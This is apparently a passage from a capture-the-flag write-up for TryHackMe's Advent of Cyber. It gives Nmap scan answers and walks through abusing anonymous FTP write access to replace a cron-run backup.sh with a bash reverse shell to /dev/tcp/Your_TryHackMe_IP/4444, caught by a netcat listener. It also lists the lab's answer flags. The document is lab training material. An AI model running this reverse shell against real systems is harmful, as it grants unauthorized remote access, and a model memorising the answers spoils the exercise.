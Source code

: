 `80,2222,3389`

<img src="https://imgur.com/Jae6Fax.png"/>

3. Use Nmap to determine the name of the Linux distribution that is running, what is reported as the most likely distribution to be running?

`Ubuntu`

4. Use Nmap's Network Scripting Engine (NSE) to retrieve the "HTTP-TITLE" of the webserver. Based on the value returned, what do we think this website might be used for?

`blog`

## [Day 9] Networking Anyone can be Santa!

<img src="https://imgur.com/fH9Nv3C.png"/>

From the nmap scan we can see that ftp `anonymous` login is enabled

Here you can either download the important files or you can just grab everything there by recusrively download everything

<img src="https://imgur.com/Cl2jKjq.png"/>

<img src="https://imgur.com/IGvKCfy.png"/>




1. Name the directory on the FTP server that has data accessible by the "anonymous" user
`public`

2. What script gets executed within this directory?
<img src="https://imgur.com/wM655Q3.png"/>

`backup.sh`

3. What movie did Santa have on his Christmas shopping list?

<img src="https://imgur.com/G4Rx40B.png"/>

`The Polar Express`

4. Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

No we know that a script `backup.sh` is running so let's create a script with a bash reverse shell

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0\>&1`

<img src="https://imgur.com/SjC3dVl.png"/>

Setup a netcat listener

<img src="https://imgur.com/fzBMJZJ.png"/>
